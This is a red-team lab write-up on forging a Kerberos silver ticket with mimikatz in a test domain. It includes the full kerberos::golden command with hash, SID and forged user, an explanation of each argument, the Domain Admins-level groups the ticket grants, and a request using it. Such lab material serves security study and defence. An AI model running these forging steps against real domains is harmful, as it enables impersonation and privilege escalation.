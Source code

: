 ```yaml
---
description: Credential Access
---
```


# Kerberos Silver Tickets

This lab looks at the technique of forging a cracked TGS Kerberos ticket in order to impersonate another user and escalate privileges.

This lab builds on the lab [T1208: Kerberoasting](./) where a TGS ticket got crack cracked.

## Execution

I will be using mimikatz to create a Kerberos Silver Ticket - forging/rewriting the cracked ticket with some new details that benefit the me as an attacker. 

Below is a table with values supplied to mimikatz explained and the command itseld:

| Argument | Notes |
| :--- | :--- |
| /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 | SID of the current user who is forging the ticket. Retrieved with `whoami /user` |
| /target:dc-mantvydas.offense.local | server hosting the attacked service for which the TGS ticket was cracked |
| /service:http | service type being attacked |
| /rc4:a87f3a337d73085c45f9416be5787d86 | NTLM hash of the password the TGS ticket was encrypted with. `Passw0rd` in our case |
| /user:beningnadmin | Forging the user name. This is the user name that will appear in the windows security logs - fun. |
| /id:1155 | Forging user's RID |
| /ptt | Instructs mimikatz to inject the forged ticket to memory to make it usable immediately |

```csharp
mimikatz # kerberos::golden /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 /domain:offense.local /ptt /id:1155 /target:dc-mantvydas.offense.local /service:http /rc4:a87f3a337d73085c45f9416be5787d86 /user:beningnadmin
```

![Getting a user&apos;s SID](../../.gitbook/assets/silver-tickets-whoami.png)

Creating the ticket with mimikatz and checking available tickets in memory with `klist` - note how the ticket specified our new client `benignadmin`

![](../../.gitbook/assets/silver-tickets-generated-ticket%20%282%29.png)

Note in the above mimikatz window the Group IDs which the fake user `benignadmin` is now a member of due to the forged ticket:

| GID | Group Name |
| :--- | :--- |
| 512 | Domain Admins |
| 513 | Domain Users |
| 518 | Schema Admins |
| 519 | Enterprise Admins |
| 520 | Group Policy Creator Owners |

![](../../.gitbook/assets/silver-tickets-groups.png)

```csharp
Invoke-WebRequest -UseBasicParsing -UseDefaultCredentials http://dc-mantvydas.offense.local
```

